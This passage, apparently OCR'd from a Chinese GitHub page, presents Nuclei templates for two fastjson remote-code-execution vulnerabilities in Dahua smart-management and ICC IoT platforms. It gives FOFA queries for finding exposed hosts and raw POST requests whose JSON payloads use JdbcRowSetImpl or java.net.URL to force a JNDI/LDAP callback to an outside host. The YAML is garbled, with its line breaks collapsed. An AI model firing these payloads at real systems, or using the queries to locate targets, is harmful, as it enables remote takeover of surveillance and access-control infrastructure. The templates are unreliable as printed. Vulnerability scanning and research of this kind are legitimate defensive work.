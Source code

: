 - **漏洞原理：**  
 通过构造恶意 JSON，利用 dataSourceName 指定恶意 LDAP 服务器。  
  
- **脚本操作：**  
 读取 Markdown 文档，自动生成 Nuclei 模板。  
  
- **生成的 YAML 模板：**  
```
id: dahua-smart-management-platform-deleteftp-rceinfo:  name: Dahua Smart Management Platform deleteFtp Remote Command Execution  author: nucleiexpert  severity: critical  description: |    A remote command execution vulnerability in the Dahua Smart Management Platform via the deleteFtp endpoint allows for external LDAP interactions and potential RCE.  tags: rce,fastjsonmetadata:  fofa-query: 'body="src=/WPMS/asset/common/js/jsencrypt.min.js"'http:  - raw:      - |        POST /CardSolution/card/accessControl/swingCardRecord/deleteFtp HTTP/1.1        Host: {{Hostname}}        Cache-Control: max-age=0        Upgrade-Insecure-Requests: 1        User-Agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36"        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7        Accept-Encoding: gzip, deflate, br        Accept-Language: zh-CN,zh;q=0.9        Cookie: yourCookie        Connection: close        Content-Type: application/json        {"ftpUrl":{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://{{interactsh-url}}","autoCommit":true}}}    matchers-condition: and    matchers:      - type: status        status:          - 200      - type: dns        part: interactsh_protocol        words:          - "dns"
```  
  
  
- **验证：**  
 配合 DNSLog，验证漏洞是否真实存在。  
  
- **案例二：大华ICC智能物联综合管理平台 fastjson 漏洞**  
  
- **漏洞故事：**  
 fastjson 的反序列化漏洞，像一个隐藏的陷阱，攻击者能远程执行代码。  
  
- **Fofa 搜索：**  
 body="客户端会小于800  
"  
  
- **漏洞原理：**  
 利用 java.net.URL 指定恶意 URL，触发 JNDI 注入。  
  
- **脚本操作：**  
 读取 Markdown 文档，自动生成 Nuclei 模板。  
  
- **生成的 YAML 模板：**  
```
id: dahua-icc-fastjson-rceinfo: name: Dahua ICC Fastjson RCE author: nucleiexpert severity: critical description: |   The Dahua ICC Intelligent IoT Management Platform has a fastjson deserialization vulnerability that can lead to Remote Code Execution (RCE). tags: rce, fastjson, iotmetadata: fofa-query: 'body="*客户端会小于800*"'http: - raw:     - |       POST /evo-runs/v1.0/auths/sysusers/random HTTP/2       Host: {{Hostname}}       User-Agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0"       Accept: "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8"       Accept-Language: "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2"       Accept-Encoding: "gzip, deflate"       Upgrade-Insecure-Requests: "1"       Sec-Fetch-Dest: "document"       Sec-Fetch-Mode: "navigate"       Sec-Fetch-Site: "none"       Sec-Fetch-User: "?1"       Te: "trailers"       Content-Type: "application/json"       {         "a": {           "@type": "com.alibaba.fastjson.JSONObject",           "@type": "java.net.URL",           "val": "http://{{interactsh-url}}"         }       }   matchers-condition: and   matchers:     - type: status       status:         - 200     - type: dns       part: interactsh_protocol       words:         - "dns"
```  
  